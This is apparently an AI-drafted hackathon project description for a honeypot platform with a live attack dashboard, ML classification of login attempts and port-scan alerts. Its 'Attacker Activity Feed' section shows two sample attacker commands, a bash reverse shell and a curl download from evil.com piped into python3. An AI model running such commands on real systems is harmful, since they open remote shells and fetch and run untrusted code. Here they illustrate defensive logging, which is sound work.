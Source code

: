 Here's a **powerful and polished project description** for your **Honeypot-as-a-Service with Real-Time Attack Dashboard + ML Defense** that will **impress hackathon judges instantly** and make your solution stand out as a practical, smart, and innovative cybersecurity tool:

---

## 🚨 Honeypot-as-a-Service (HaaS): Real-Time Cyber Threat Detection & Defense Platform

### 🔍 Overview:

Our project is a **Honeypot-as-a-Service** platform that **detects, logs, analyzes, visualizes, and classifies real-time cyber attacks** using simulated honeypot services. It's enhanced with **machine learning**, **automated IP blocking**, and a live **real-time dashboard** for security teams to monitor and respond instantly.

> “What antivirus does after a breach, our system does proactively before damage is done.”

---

### 💡 Core Features:

#### 1. 🛡️ **Simulated Honeypot Services**

* Simulates vulnerable SSH, FTP, HTTP ports to **bait attackers**.
* Logs every command and connection attempt.
* Feels like a real service—deceives attackers into interacting.

#### 2. ⚡ **Real-Time Interactive Dashboard**

* Built in HTML + Chart.js + PHP + MySQL (No frameworks).
* Live updates every **5 seconds** with:

  * 📌 **Attack Type Distribution** (Normal vs Suspicious)
  * ⏱️ **Time Series Graph** (Attacks over the last 12 hours)
  * 🔐 **SSH Login Classifier** (Success/Fail attempts)
  * 🚨 **Top IP Scanners** (from PSAD)
  * 📊 **PSAD Summary Metrics** (Blocked IPs, Total Sources)
  * 🛠️ **Port Scan Activity** (Tooltips with timestamp)

#### 3. 🧠 **ML-based Anomaly Detection**

* Every login attempt is classified using an AI model:

  * `Normal` or `Suspicious`
* Judges or admins can review and correct labels.
* Model **re-trains automatically** based on human feedback (active learning).

#### 4. 🔁 **Review & Feedback System**

* Admin panel for:

  * Reviewing unverified login logs.
  * Labeling them with one click (`Normal` / `Suspicious`).
  * System learns from admin input for smarter future classifications.

#### 5. 📡 **Real SSH Monitoring (Non-standard port)**

* Monitors actual login attempts on a real SSH server (e.g., port 2222).
* Logs are parsed and stored into MySQL in real time.


#### 8. 🧑‍💻 **Attacker Activity Feed**

* Table of all commands executed by attackers.
* Shows live logs such as:

  ```bash
  bash -i >& /dev/tcp/192.168.1.5/4444 0>&1
  curl http://evil.com/backdoor.py | python3
  ```

#### 9. 📧 **Gmail Alerts**

* Auto sends email to admin on:

  * Port scan detection

#### 10. 📈 **Fully Auto-Refreshing Interface**

* No manual refresh needed.
* Everything updates seamlessly via fetch + JSON every 5 seconds.

---

### ⚙️ Tech Stack:

| Component          | Stack / Tool                         |
| ------------------ | ------------------------------------ |
| Backend            | PHP                                  |
| Database           | MySQL                                |
| ML Classifier      | Python                               |
| Real-Time Charting | Chart.js                             |
| Honeypot Engine    | Custom Python scripts                |
| Packet Scanner     | PSAD (Port Scan Attack Detector)     |
| Email Alerts       | Gmail SMTP + PHPMailer               |
| Deployment         | VPS / Localhost with Port Forwarding |



---

### 💬 Elevator Pitch:

> "This project is your AI-powered cybersecurity analyst—quietly sitting on your server, watching every move, predicting malicious intent, and defending your system — all live on one dashboard. It’s the future of intrusion detection — available now."

---

